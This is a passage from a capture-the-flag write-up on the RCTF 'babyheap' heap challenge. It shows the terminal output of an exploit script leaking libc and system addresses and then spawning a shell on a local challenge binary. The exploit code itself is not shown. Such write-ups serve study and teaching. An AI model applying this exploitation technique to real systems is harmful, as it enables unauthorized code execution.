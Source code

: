 When we run it:
```
$	python exploit.py 
[+] Starting local process './babyheap': pid 7013
[*] '/Hackery/RCTF/babyheap/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] running in new terminal: /usr/bin/gdb -q  "/Hackery/RCTF/babyheap/babyheap" 7013
[+] Waiting for debugger: Done
content: 
[*] Leak is:   0x7fa3a2dd5b78
[*] Libc is:   0x7fa3a2a11000
[*] Chunk is:  0x7fa3a2dd5aed
[*] System is: 0x7fa3a2a5626a
[*] Switching to interactive mode
please input chunk size: $ w
 02:22:43 up  5:36,  1 user,  load average: 1.46, 1.50, 1.29
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               20:47    5:35m 11:23   0.04s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
$ ls
1  babyheap                      peda-session-dash.txt
2  babyheap_38af156349af04e8f6dc22a0ffee6a7a.zip  peda-session-libc.so.6.txt
3  core                          peda-session-w.procps.txt
4  exploit.py                      readme.md
5  libc.so.6                      solved.py
6  peda-session-babyheap.txt
$  
```

Just like that, we popped a shell. I would also like to say thanks to the writeups mentioned earlier, that this is based off of.

